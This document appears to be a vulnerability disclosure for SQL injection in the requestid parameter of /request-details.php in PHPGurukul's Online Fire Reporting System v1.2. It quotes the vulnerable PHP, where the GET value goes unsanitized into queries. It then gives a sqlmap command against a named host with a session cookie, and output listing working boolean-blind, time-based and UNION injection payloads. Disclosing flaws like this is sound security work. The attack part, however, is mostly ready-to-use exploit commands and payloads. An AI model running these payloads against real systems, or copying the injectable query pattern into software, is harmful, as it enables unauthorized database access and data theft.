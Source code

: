 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /request-details.php

**Vender**

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Version**

- V1.2

**Vulnerable File**

- /request-details.php

**Affect Param**

- requestid

### POC

```php
$rid=$_GET['requestid'];
$query=mysqli_query($con,"select * from tblfirereport where id='$rid'");
$query=mysqli_query($con,"select * from tblfirereport join tblteams on tblteams.id=tblfirereport.assignTo where tblfirereport.id='$rid'");
$ret=mysqli_query($con,"select * from tblfiretequesthistory where requestId='$rid'");
```



```bash
sqlmap -u http://www.firereport.top/admin/request-details.php?requestid=1 --cookie="PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf" --batch
```



```
---
Parameter: requestid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: requestid=1' AND 8124=8124 AND 'SNss'='SNss

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: requestid=1' AND (SELECT 2728 FROM (SELECT(SLEEP(5)))AnQf) AND 'nAaO'='nAaO

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: requestid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71787a6271,0x45506642584c684246695942424d486c57596554545375484b5a764767496b63666449506b4c6956,0x7171717171),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



![image-20250531182947043](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311829163.png)

